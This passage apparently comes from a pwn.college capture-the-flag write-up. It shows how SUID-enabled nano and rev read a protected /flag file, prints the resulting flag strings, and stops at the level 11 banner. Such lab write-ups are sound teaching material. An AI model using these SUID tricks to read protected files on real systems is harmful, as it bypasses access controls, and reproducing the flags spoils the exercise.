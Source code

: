 ```
hacker@program-misuse~level9:/$ nano /flag 

pwn.college{0f1RguaQ0sFq3643o1uhyieg6zY.0VM1EDL4ITM0EzW}
```

&nbsp;

## level 10

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level10:/$ /challenge/babysuid_level10 
Welcome to /challenge/babysuid_level10!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/rev.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level10) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/rev!
```

The `rev` utility reverses the order of characters within a file.

```
hacker@program-misuse~level10:/$ rev /flag 
}WzE0MTI4LDE1Ml0.J_y9MmwFrNTr99k0Od4u8_x4llw{egelloc.nwp
```

As we can see, the flag is reversed. In order to get the correct ordered flag, we have to pipe the above command with another `rev`.

```
hacker@program-misuse~level10:/$ rev /flag | rev
pwn.college{wll4x_8u4dO0k99rTNrFwmM9y_J.0lM1EDL4ITM0EzW}
```

&nbsp;

## level 11

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level11:/$ /challenge/babysuid_level11 
Welcome to /challenge/babysuid_level11!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/od.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level11) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/od!
```
